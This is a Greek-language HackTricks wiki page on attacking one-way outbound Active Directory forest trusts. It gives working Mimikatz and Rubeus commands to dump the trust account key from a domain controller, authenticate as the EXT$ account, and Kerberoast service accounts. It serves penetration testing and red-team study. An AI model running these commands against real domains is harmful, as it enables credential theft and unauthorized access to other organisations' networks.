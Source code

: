 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Σε αυτό το σενάριο **το domain σας** **εμπιστεύεται** κάποιες **privileges** σε principal από **διαφορετικά domains**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Μια ευπάθεια ασφαλείας υπάρχει όταν μια σχέση εμπιστοσύνης καθορίζεται μεταξύ δύο τομέων, που αναγνωρίζονται εδώ ως τομέας **A** και τομέας **B**, όπου ο τομέας **B** επεκτείνει την εμπιστοσύνη του στον τομέα **A**. Σε αυτή τη ρύθμιση, δημιουργείται ένας ειδικός λογαριασμός στον τομέα **A** για τον τομέα **B**, ο οποίος παίζει κρίσιμο ρόλο στη διαδικασία πιστοποίησης μεταξύ των δύο τομέων. Αυτός ο λογαριασμός, που σχετίζεται με τον τομέα **B**, χρησιμοποιείται για την κρυπτογράφηση εισιτηρίων για την πρόσβαση σε υπηρεσίες μεταξύ των τομέων.

Η κρίσιμη πτυχή που πρέπει να κατανοηθεί εδώ είναι ότι ο κωδικός πρόσβασης και το hash αυτού του ειδικού λογαριασμού μπορούν να εξαχθούν από έναν Domain Controller στον τομέα **A** χρησιμοποιώντας ένα εργαλείο γραμμής εντολών. Η εντολή για την εκτέλεση αυτής της ενέργειας είναι:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Αυτή η εξαγωγή είναι δυνατή επειδή ο λογαριασμός, που αναγνωρίζεται με ένα **$** μετά το όνομά του, είναι ενεργός και ανήκει στην ομάδα "Domain Users" του τομέα **A**, κληρονομώντας έτσι τις άδειες που σχετίζονται με αυτήν την ομάδα. Αυτό επιτρέπει στα άτομα να πιστοποιούνται κατά του τομέα **A** χρησιμοποιώντας τα διαπιστευτήρια αυτού του λογαριασμού.

**Προειδοποίηση:** Είναι εφικτό να εκμεταλλευτεί κανείς αυτή την κατάσταση για να αποκτήσει πρόσβαση στον τομέα **A** ως χρήστης, αν και με περιορισμένες άδειες. Ωστόσο, αυτή η πρόσβαση είναι επαρκής για να εκτελέσει καταμέτρηση στον τομέα **A**.

Σε ένα σενάριο όπου το `ext.local` είναι ο τομέας εμπιστοσύνης και το `root.local` είναι ο εμπιστευμένος τομέας, θα δημιουργηθεί ένας λογαριασμός χρήστη με το όνομα `EXT$` εντός του `root.local`. Μέσω συγκεκριμένων εργαλείων, είναι δυνατόν να εξάγουμε τα κλειδιά εμπιστοσύνης Kerberos, αποκαλύπτοντας τα διαπιστευτήρια του `EXT$` στο `root.local`. Η εντολή για να το επιτύχουμε είναι:
```bash
lsadump::trust /patch
```
Ακολουθώντας αυτό, θα μπορούσε να χρησιμοποιήσει το εξαγόμενο κλειδί RC4 για να πιστοποιηθεί ως `root.local\EXT$` εντός του `root.local` χρησιμοποιώντας μια άλλη εντολή εργαλείου:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Αυτό το βήμα αυθεντικοποίησης ανοίγει τη δυνατότητα να καταμετρήσουμε και ακόμη και να εκμεταλλευτούμε υπηρεσίες εντός του `root.local`, όπως η εκτέλεση μιας επίθεσης Kerberoast για την εξαγωγή διαπιστευτηρίων λογαριασμού υπηρεσίας χρησιμοποιώντας:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Συλλογή καθαρού κωδικού εμπιστοσύνης

Στην προηγούμενη ροή χρησιμοποιήθηκε το hash εμπιστοσύνης αντί για τον **καθαρό κωδικό** (ο οποίος επίσης **εκλάπη από το mimikatz**).

Ο καθαρός κωδικός μπορεί να αποκτηθεί μετατρέποντας την έξοδο \[ CLEAR ] από το mimikatz από δεκαεξαδικό και αφαιρώντας τα null bytes ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Μερικές φορές, κατά τη δημιουργία μιας σχέσης εμπιστοσύνης, ένας κωδικός πρέπει να πληκτρολογηθεί από τον χρήστη για την εμπιστοσύνη. Σε αυτή τη демонстрация, το κλειδί είναι ο αρχικός κωδικός εμπιστοσύνης και επομένως αναγνώσιμο από άνθρωπο. Καθώς το κλειδί κυκλώνει (30 ημέρες), ο καθαρός κωδικός δεν θα είναι αναγνώσιμος από άνθρωπο αλλά τεχνικά θα είναι ακόμα χρήσιμος.

Ο καθαρός κωδικός μπορεί να χρησιμοποιηθεί για κανονική αυθεντικοποίηση ως ο λογαριασμός εμπιστοσύνης, μια εναλλακτική λύση για την αίτηση ενός TGT χρησιμοποιώντας το μυστικό κλειδί Kerberos του λογαριασμού εμπιστοσύνης. Εδώ, ερωτώντας το root.local από το ext.local για μέλη των Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Αναφορές

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
